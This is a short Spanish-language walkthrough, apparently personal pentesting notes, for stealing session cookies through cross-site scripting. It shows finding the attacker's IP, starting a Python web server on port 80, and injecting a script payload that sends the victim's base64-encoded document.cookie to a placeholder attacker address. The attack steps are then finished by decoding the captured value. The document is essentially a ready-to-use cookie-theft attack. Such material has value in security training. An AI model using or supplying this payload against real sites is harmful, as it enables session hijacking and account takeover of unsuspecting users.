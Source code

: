 Buscar cual es la dirección IP de la maquina atacante:  
`ifconfig`  

Montar un servidor web para almacenar la cookie que voy a robar:  
`python3 -m http.server 80`  

Ejecutar el siguiente codigo de XSS. Este codigo para a buscar por una imagen almacenada en la IP del atacante.  
Obviamente la imagen no existe, pero la víctima va a hacer una petición al servidor web creado anteriormente y va a mandar la cookie de la sesión en ese paquete.  

`<script>var i=new Image(); i.src="http://IP-DEL-ATACANTE/?cookie="+btoa(document.cookie);</script>`  

Finalmente, decodificar el texto capturado, ya que está en formato Base64. Esto se puede realizar con alguna herramienta en línea.
